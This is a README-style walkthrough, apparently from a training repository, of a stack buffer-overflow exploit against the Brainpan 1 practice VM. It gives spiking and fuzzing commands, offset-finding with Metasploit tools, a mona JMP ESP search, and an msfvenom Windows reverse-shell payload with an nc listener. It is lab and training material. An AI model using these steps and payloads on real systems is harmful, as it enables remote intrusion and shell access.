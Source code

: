 <h1>Hacksudo Brainpan BOF server </h1>
visit brainpan 1 box walktrhough 
https://leetvilu.blogspot.com/2021/03/brainpan-1-box-walkktrhough-hacksudocom.html
<br>youtube channel:- https://youtube.com/hackshala
<h2>Steps</h2></br>
All BOF step are given bellow check clearfully 
<h3>1 spiking</n>
<br>2 fuzzing</n>
<br>3 finding the offset
<br>4 overwriting the EIP
<br>5 finding bad characters
<br>6 finding the right modules
<br>7 Generating Shellcode</h3></br></br></br></br></br>
<h2>1 Spiking </h2>
First make sure Your firewall real protection turn off
Now run brainpan server as admin
use your spiking.spk to find Vulnerability 
script is --> 
<b> s_readline();
"s_string("TRUN ");"
s_string_variable("0");
</b>

Now use generic_send_tcp (target)IP (target)PORT spiking.spk 0 0
(if server crash ? boom you  succeed 

<h2> 2 fuzzing</h2>
Now time to find Number of size buffer which crash server 
(use chmod +x * )
 ./brainpan.py 192.168.43.161 9999 ( here your brainpan server will crash and you will get avarage amount o buffer size
Now create pattern , why ? to find exact number of Buffer size
First create unic pattern using metasploit tool
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1500( here your last (brainpan.py) crash avarage number , which 
must greater.  
 Now use offsetcalc.py to find lenght which you will use later to  find offset which is our exact buffer size in byte :D 
 ./offsetcalc.py IP PORT
get EIP value ? now use it at offset

<h2> 3 finding the offset</h2>
find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 35724134
[*] Exact match at offset 524
 boom ?? we get Exact Number of size which is 524

<h2>4. overwriting the EIP</h2>
Now Verify EIP Overwrite, add B*4 and check debuger print 42424242 at EIP 
./brainpanEIPWt.py IP PORT
 YES --> ok great

<h2>5. finding bad characters</h2>
Now find Bad chars which is use while create shellcode , actualy  we dont need to find  bad chars in this servers, but dont skip this step go head
and just do practice ;) 
 ./brainpanBadChard.py IP PORT
remember how to find Bad chars ? opps no ? dont worry just do hard else catch me on insta i'll explain you 
https://instagram.com/realvilu
:)

<h2>6. finding the right modules</h2>
Downloaded Mona modules ? . no ? download it  --> https://github.com/corelan/mona and add it at exact place
use command 
!mona mudules
!mona find -s "\xff\xe4" -m brainpan.dll
now find base value note it down
and make sure ur JMP ESP Using nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

now do make sure you selected your JMP ESP make sure your base value is right 

fire offsetverify.py
./offsetverify.py IP PORT
make sure its work you controling EIP or not if yes then go head and do shell using shellcode
control EIP done

<h2>7. Generating Shellcode</h2>
now generarte shellcode 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.216 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"(make sure your bad chars)

"A" * 524 + (JMP ESP value) "\xf3\x12\x17\x31"  (reverse way) +  "\x90" * 8 ( this is nops value minimum which make space between shell and JMP ESP+ shell 
make sure your nc is ready
 nc -lvnp 443 
and now fire your final code 
./finalexploit.py IP PORT

boom you will get shell 
if not then sorry please recheck all step clearly 
thanks i hope you love this repo :D 
<h1>love you guys thanks for watching </h1>
<b>
<br>visit our official Website : https://hacksudo.com</br>
<br>hacksudo Linkedin https://www.linkedin.com/in/hack-sudo-230a871b3/</br>
<br> visit linkedin https://www.linkedin.com/in/realvilu </br>
<br><h2>Author Vishal waghmare</h2></br>
<h3>Happy Hacking :)</h3>
